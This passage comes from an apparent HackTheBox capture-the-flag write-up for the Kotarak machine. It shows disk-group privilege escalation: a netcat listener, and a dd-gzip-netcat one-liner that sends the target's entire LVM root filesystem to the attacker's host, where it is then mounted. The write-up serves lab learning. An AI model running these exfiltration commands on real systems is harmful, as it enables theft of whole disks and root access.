 
We can see that we actully have Logical-Volume-Manager or `LVM` deployed on this system. [LVM](https://en.wikipedia.org/wiki/Main_Page) is very cool framework that virtualizes block devices on Unix system, making them much, much easier to administer. 


We can see the root filesystem is actully mounted on the logical volume group `Kotarak--vg--root`, which should be located at `/dev/mapper/Kotarak-vg/root`. 


Let's exploit this! 


### `Disk` Group Escalation


To perfrom the exploit, all we have to do is start a local listener on our Kali machine that will intercept the data coming from the target and write it into a file:

```bash
nc -lnvp 445 > rootfs.gz
```

Then, we can copy the `/dev/mapper/Kotarak-vg/root` block device, compress it so it will transfer faster, and send it to the netcat listener. We can do all this with the following command:


```bash
dd if=/dev/Kotarak-vg/root | gzip -1 - | nc 10.10.14.50 445
```

![dd-37](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Kotarak/img/dd-37.png)


This will take a couple of minutes to complete. Once it's done, we can extract and mount the filesystem on our attack machine using:

```bash
mv rootfs.gz /mnt; cd /mnt; mkdir kotarak
gunzip rootfs.gz
mount rootfs kotarak
```

I did this on a Ubuntu VM I have, instead of my Kali (I had some spacing issues, which I decided to fix after this box). But here is the filesytem:

![rootfs-38](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Kotarak/img/rootfs-38.png)
